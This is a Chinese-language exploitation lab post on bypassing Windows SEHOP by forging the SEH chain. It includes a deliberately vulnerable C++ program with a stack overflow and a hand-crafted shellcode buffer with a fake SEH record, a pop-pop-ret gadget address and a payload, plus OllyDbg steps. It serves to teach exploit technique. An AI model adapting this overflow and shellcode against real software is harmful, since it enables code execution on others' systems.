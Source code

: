 ```yaml
---
layout:		post
title:		伪造S.E.H链表
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows 7 Ultimate sp0 x86  
>编译器: Visual Studio 2008、VC++ 6.0  
>调试器: OllyDbg 1.10  
>注意: 关闭系统DEP、开启SEHOP  
<!-- more -->


新建一个工程, 贴入以下代码

```
// fakeSEH.cpp : 定义控制台应用程序的入口点。
//

#include "stdafx.h"
#include <string.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x14\xFF\x12\x00"		// Point to fakeSEH
"\x12\x10\x12\x11"		//address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09"
"\x8B\x09"				// mov ecx,[ecx]
"\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x30\x75\x6e\x67\x68\x77\x6f\x6f\x79\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90"
"\xFF\xFF\xFF\xFF"		// SEH End Node
"\x75\xA8\xF1\x76";

DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}

void test(char * input)
{
	char str[200];
	memcpy(str,input,412);	
	int zero=0;

	__try
	{
		zero=1/zero;
	}
	__except(MyException())
	{
	}
}

int _tmain(int argc, _TCHAR* argv[])
{
	HINSTANCE hInst = LoadLibrary(_T("SEH_NoSafeSEH_JUMP.dll"));
	char str[200];

	//__asm int 3
	test(shellcode);

	return 0;
}
```

OD附加上去, 找到S.E.H链的尾部

![](/assets/img/exploit/2017-12-31-break-sehop-by-fake-sehchain/0x00.png)

这里是伪造的S.E.H尾节点

![](/assets/img/exploit/2017-12-31-break-sehop-by-fake-sehchain/0x01.png)

直接运行, pwn~

![](/assets/img/exploit/2017-12-31-break-sehop-by-fake-sehchain/0x02.png)
